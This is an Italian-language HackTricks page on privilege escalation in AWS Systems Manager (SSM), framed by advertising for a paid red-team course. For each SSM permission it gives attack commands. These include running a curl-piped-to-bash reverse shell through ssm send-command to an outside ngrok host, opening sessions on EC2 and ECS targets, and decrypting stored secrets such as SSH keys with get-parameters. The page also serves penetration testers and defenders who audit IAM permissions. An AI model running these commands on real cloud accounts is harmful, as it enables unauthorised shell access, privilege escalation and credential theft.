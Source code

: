 # AWS - SSM Privesc

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SSM

Per ulteriori informazioni su SSM, controlla:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaccante con il permesso **`ssm:SendCommand`** può **eseguire comandi nelle istanze** in esecuzione sull'Agente Amazon SSM e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impatto potenziale:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con SSM Agents in esecuzione.

### `ssm:StartSession`

Un attaccante con il permesso **`ssm:StartSession`** può **avviare una sessione simile a SSH nelle istanze** in esecuzione con l'Agente Amazon SSM e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Per avviare una sessione è necessario avere installato il **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potenziale impatto:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con SSM Agents in esecuzione.

#### Privesc a ECS

Quando i **task ECS** vengono eseguiti con **`ExecuteCommand` abilitato**, gli utenti con le autorizzazioni sufficienti possono utilizzare `ecs execute-command` per **eseguire un comando** all'interno del container.\
Secondo [**la documentazione**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), ciò avviene creando un canale sicuro tra il dispositivo utilizzato per avviare il comando "exec" e il container di destinazione con SSM Session Manager.\
Pertanto, gli utenti con `ssm:StartSession` saranno in grado di **ottenere una shell all'interno dei task ECS** con questa opzione abilitata semplicemente eseguendo:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Impatto potenziale:** Privesc diretto ai ruoli `ECS`IAM collegati alle attività in esecuzione con `ExecuteCommand` abilitato.

### `ssm:ResumeSession`

Un attaccante con il permesso **`ssm:ResumeSession`** può riavviare una sessione simile a SSH nelle istanze in esecuzione dell'Agente Amazon SSM con uno stato di sessione SSM **disconnesso** e compromettere il ruolo IAM in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potenziale Impatto:** Privesc diretto ai ruoli IAM EC2 collegati alle istanze in esecuzione con agenti SSM in esecuzione e sessioni disconnesse.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaccante con le autorizzazioni menzionate sarà in grado di elencare i **parametri SSM** e **leggerli in chiaro**. In questi parametri è possibile trovare frequentemente **informazioni sensibili** come chiavi SSH o chiavi API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potenziale Impatto:** Trovare informazioni sensibili all'interno dei parametri.

### `ssm:ListCommands`

Un attaccante con questa autorizzazione può elencare tutti i **comandi** inviati e sperabilmente trovare **informazioni sensibili** su di essi.
```
aws ssm list-commands
```
**Potenziale Impatto:** Trovare informazioni sensibili all'interno delle righe di comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaccante con queste autorizzazioni può elencare tutti i **comandi** inviati e **leggere l'output** generato, sperando di trovare informazioni **sensibili** al loro interno.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potenziale impatto:** Trovare informazioni sensibili all'interno dell'output dei comandi.

### Codebuild

È anche possibile utilizzare SSM per accedere a un progetto codebuild in fase di compilazione:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
